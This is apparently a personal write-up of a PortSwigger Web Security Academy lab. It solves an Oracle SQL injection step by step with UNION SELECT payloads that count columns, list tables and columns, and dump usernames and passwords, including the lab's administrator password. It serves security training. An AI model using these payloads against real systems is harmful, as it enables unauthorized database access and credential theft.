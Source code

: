 # SQL injection attack, listing the database contents on Oracle

1. SQLi: 
    - product category filter.
    - login function.
    - database contains a table that holds usernames and passwords.
2. Goal:
    - determine the name of this table and the columns it contains.
    - retrieve the contents of the table to obtain the username and password of all users.
    - log in as the `administrator` user.

### Analysis
- Website target: `https://0a8000820382b9718228c59900ed00a2.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 2--
'-- I found 2 columns.
```

2. Find the data type of columns.
```sql
' union select 'a', 'a' from dual--
'-- Both columns are text.
```

3. Output the list of tables in the database.
```sql
SELECT * FROM all_tables --Oracle

' UNION SELECT TABLE_NAME, NULL FROM all_tables--
'-- I found USERS_FTICVX table.
```

4. Ouput the column names of the table.
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

' UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_FTICVX'--
'-- I found 2 columns: USERNAME_QNPMEH, PASSWORD_TRWRZM
```

5. Output usernames and passwords.
```sql
' union select USERNAME_QNPMEH, PASSWORD_TRWRZM from USERS_FTICVX--
'-- Username: administrator
-- Password: vtlnjrl413af7c8diaqd
```